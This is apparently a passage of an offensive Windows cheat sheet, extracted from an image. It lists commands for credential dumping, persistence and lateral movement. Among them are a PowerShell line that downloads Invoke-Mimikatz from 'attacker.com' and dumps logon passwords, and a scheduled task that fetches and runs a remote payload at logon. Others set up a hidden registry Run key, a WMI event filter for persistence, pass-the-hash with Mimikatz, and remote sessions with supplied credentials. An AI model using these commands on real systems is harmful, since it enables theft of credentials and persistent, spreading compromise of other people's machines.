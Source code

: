 ### **Mimikatz via PowerShell**

```
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Invoke-Mimikatz.ps1') Invoke-Mimikatz -Command "privilege::debug sekurlsa::logonpasswords"
```


---

## **🛠️ Persistence**

### **Scheduled Tasks**

```
schtasks /create /sc onlogon /tn "Updater" /tr "powershell.exe -c IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
```

### **Registry Run Key**

```
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\temp\script.ps1"
```

### **WMI Event Subscription**

```
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{Name="Persistence"; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_Process'"}
```


---

## **🎯 Lateral Movement**

### **PSExec**

```
Invoke-Command -ComputerName "VictimPC" -ScriptBlock {whoami} -Credential (Get-Credential)
```

### **Pass-the-Hash**

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:TARGET /ntlm:HASH /run:powershell.exe"'
```

### **WinRM (If Enabled)**

```
Enter-PSSession -ComputerName TARGET -Credential (Get-Credential)
```

---